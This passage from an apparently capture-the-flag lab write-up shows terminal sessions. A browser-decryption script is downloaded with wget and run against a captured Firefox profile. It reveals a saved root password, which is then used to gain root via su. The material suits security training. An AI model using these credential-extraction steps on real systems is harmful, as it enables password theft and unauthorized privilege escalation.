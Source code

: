 [Firefox Decrypt GitHub Raw Code](https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ wget https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py
--2023-11-18 21:24:26--  https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39242 (38K) [text/plain]
Saving to: ‘firefox_decrypt.py’

firefox_decrypt.py        100%[=====================================>]  38.32K  --.-KB/s    in 0.01s

2023-11-18 21:24:26 (3.01 MB/s) - ‘firefox_decrypt.py’ saved [39242/39242]


```

Run the _firefox_decrypt.py_ on _.mozilla/firefox_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ python3 firefox_decrypt.py .mozilla/firefox/
Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'

```

Use the extracted password to switch to the _root_ user.

```bash
[elliot@insanityhosting ~]$ su root
Password:
[root@insanityhosting elliot]# id
uid=0(root) gid=0(root) groups=0(root)
[root@insanityhosting elliot]# whoami
root

```
